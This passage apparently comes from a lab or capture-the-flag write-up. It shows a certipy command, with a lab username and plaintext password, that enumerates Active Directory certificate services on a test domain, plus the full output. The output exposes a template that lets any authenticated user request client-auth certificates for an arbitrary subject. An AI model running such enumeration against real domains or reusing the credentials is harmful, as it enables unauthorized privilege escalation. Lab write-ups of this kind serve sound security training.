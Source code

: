 `certipy find -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!' -dc-ip 10.10.116.93 -stdout -vulnerable`

```
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'thm-LABYRINTH-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
[*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ 'labyrinth.thm.local'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    Certificate Subject                 : CN=thm-LABYRINTH-CA, DC=thm, DC=local
    Certificate Serial Number           : 5225C02DD750EDB340E984BC75F09029
    Certificate Validity Start          : 2023-05-12 07:26:00+00:00
    Certificate Validity End            : 2028-05-12 07:35:59+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : THM.LOCAL\Administrators
      Access Rights
        ManageCa                        : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        ManageCertificates              : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Enroll                          : THM.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-05-12T08:55:40+00:00
```